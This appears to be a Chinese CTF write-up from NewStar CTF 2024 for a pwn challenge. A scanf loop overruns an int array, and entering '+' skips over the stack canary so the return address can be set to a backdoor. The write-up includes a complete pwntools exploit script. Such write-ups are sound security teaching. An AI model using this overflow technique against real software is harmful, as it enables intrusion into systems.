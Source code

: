 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 不思議なscanf

```c
int __fastcall main(int argc, const char **argv, const char**envp)
{
  int v3; // eax
  int i; // [rsp+Ch] [rbp-24h]
  _DWORD v6[6]; // [rsp+10h] [rbp-20h] BYREF
  unsigned__int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  initial(argc, argv, envp);
  puts(aGgggggggggeeee);
  for ( i = 0; i <= 15; ++i )
  {
    printf(format);
    v3 = i;
    __isoc99_scanf(&unk_4047FA, &v6[v3]);
  }
  puts("銉愩偆銉愩偆");
  return 0;
}
```

程序定义了一个int类型的数组，并利用for循环用scanf向数组读入内容

但是for循环的次数是16次，已经超出了数组定义的范围，造成了数组越界

所以我们最终的目的就是利用这个数组越界修改main函数的返回地址

![查看保护](/assets/images/wp/2024/week3/scanf_1.png)

![查看汇编](/assets/images/wp/2024/week3/scanf_2.png)

:::tip
scanf时使用的参数%d

正常输入时，输入为范围在-2147483648~2147483647内的整数。

如果输入范围在-9223372036854775808~9223372036854775807内的整数，则会截断高位读取，此范围是long long int的范围。

如果输入范围在long long int范围之外，则统一将参数赋值为-1（0xFFFFFFFF）

如果输入为非数字，分为下列情况：

1. 如果输入仅有一个，则该输入无效，该值不变。

2. 如果输入有数字前缀（如12345abcd），则scanf仅会读取前面的数字，从第一个非数字开始，后面全部舍弃（12345）。

3. 如果输入有多个且使用一个scanf语句（如scanf(“%d, %d”, &a, &b)）。输入第一个非数字后，后面的所有输入均为无效，前面的输入可以赋值。

4. 如果输入有多个且使用多个scanf语句（含循环，即一个scanf中仅有一个输入），则输入非数字时，如果输入的不是`+`或`-`，则后面紧跟的所有scanf均自动跳过，变为无效，不能输入。如果输入的`+`或`-`，则会跳过当前输入，后面仍然可以进行输入。

摘抄自：<https://blog.csdn.net/qq_54218833/article/details/121308367>
:::

这里我们需要利用scanf多次输入的特性，通过输入字符`+`来跳过对canary的修改，进而直接修改返回地址为后门地址

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./pwn')
elf = ELF('./pwn')

for _ in range(10):
    ru('わたし、気になります！')
    sl(b'+')

ru('わたし、気になります！')
sl(str(0x401240))
ru('わたし、気になります！')
sl(str(0))

for _ in range(4):
    ru('わたし、気になります！')
    sl(b'+')

p.interactive()
```
